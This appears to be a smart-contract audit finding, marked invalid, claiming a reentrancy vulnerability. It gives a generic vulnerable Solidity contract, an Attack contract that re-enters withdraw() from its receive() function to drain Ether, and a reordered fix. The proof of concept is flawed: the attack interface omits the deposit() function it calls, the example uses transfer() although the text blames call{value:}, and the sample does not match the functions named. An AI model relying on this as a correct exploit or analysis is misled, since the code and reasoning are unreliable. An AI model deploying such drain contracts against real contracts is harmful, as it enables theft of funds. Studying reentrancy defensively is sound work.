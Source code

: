 Bouncy Lemonade Shetland

Invalid

# Reentrancy Vulnerability in Contract

Reentrancy allows an attacker to re-enter the contract through a fallback function during the execution of a transaction, causing the contract to potentially perform unintended operations. This could lead to the loss of funds, unauthorized access to sensitive data, or manipulation of contract state.
This contract is vulnerable to reentrancy attacks due to the usage of call{value: } for transferring funds and interacting with other external contracts without properly updating the contract's state before the transfer. There are instances where external calls are made with call{value: } and other interactions that could be subject to reentrancy attacks. these functions in particular are vulnerable:
    * withDraw (uses call{value:} to transfer ETH)
    *_withdraw (uses call{value:} for sending ETH)
A reentrancy attack could happen if, during the execution of a function, an external contract calls back into the contract before the state variables are updated (for example, before the collateral values are updated in _withdraw). This could lead to the loss of funds, unauthorized access to sensitive data, or manipulation of contract state.
Here is my proof of concept:
this is the original contract:

pragma solidity ^0.8.0;

contract Vulnerable {
    mapping(address => uint256) public balances;
    
    // Deposit function
    function deposit() external payable {
        balances[msg.sender] += msg.value;
    }

    // Withdraw function vulnerable to reentrancy
    function withdraw(uint256 _amount) external {
        // Check if the user has enough balance
        require(balances[msg.sender] >= _amount, "Insufficient balance");

        // Transfer the amount to the user (no state update before transfer)
        payable(msg.sender).transfer(_amount);

        // Update the balance after the transfer (vulnerable state)
        balances[msg.sender] -= _amount;
    }
}

The withdraw() function is vulnerable because it transfers the balance before updating the state (i.e., the balances[msg.sender] -= _amount; line comes after the transfer). This opens the door for a hacker to deploy a malicious contract that exploits the reentrancy vulnerability by repeatedly calling the withdraw() function of the Vulnerable contract during its execution to drain funds.

here is an example of such a malicious code:
pragma solidity ^0.8.0;

interface IVulnerable {
    function withdraw(uint256 _amount) external;
}

contract Attack {
    IVulnerable public vulnerableContract;
    
    // Set the address of the vulnerable contract
    constructor(address _vulnerableAddress) {
        vulnerableContract = IVulnerable(_vulnerableAddress);
    }

    // Fallback function that is called when the attacker receives Ether
    receive() external payable {
        // Reentrancy attack: Call withdraw again during the transfer
        if (address(vulnerableContract).balance >= 1 ether) {
            vulnerableContract.withdraw(1 ether);
        }
    }

    // Start the attack by depositing funds into the vulnerable contract
    function startAttack() external payable {
        require(msg.value >= 1 ether, "Send at least 1 ether");
        
        // Deposit into the vulnerable contract
        vulnerableContract.deposit{value: msg.value}();
        
        // Initiate the withdrawal (attack starts here)
        vulnerableContract.withdraw(1 ether);
    }
}

If a malicious contract such as this is deployed and pointed towards the address of the vulnerable contract, it's attack can be executed if the hacker sends at least 1 ETH to the malicious contract via startAttack(). The malicious contract will deposits this ETH into the vulnerable contract and then calls the withdraw() function. When the withdraw() function is called in the vulnerable contract, it will transfer the 1 ETH to the malicious contract. The malicious contract's receive() function is triggered, which calls withdraw() again on the vulnerable contract before the state is updated, draining funds from the vulnerable contract.

To fix this vulnerability, the state should always be updated before transferring funds to the user. Here is a safer version of the withdraw() function:

function withdraw(uint256 _amount) external {
    // Check if the user has enough balance
    require(balances[msg.sender] >= _amount, "Insufficient balance");

    // Update the balance before transferring funds
    balances[msg.sender] -= _amount;

    // Transfer the amount to the user
    payable(msg.sender).transfer(_amount);
}

Thank you. I hope this is helpful. 
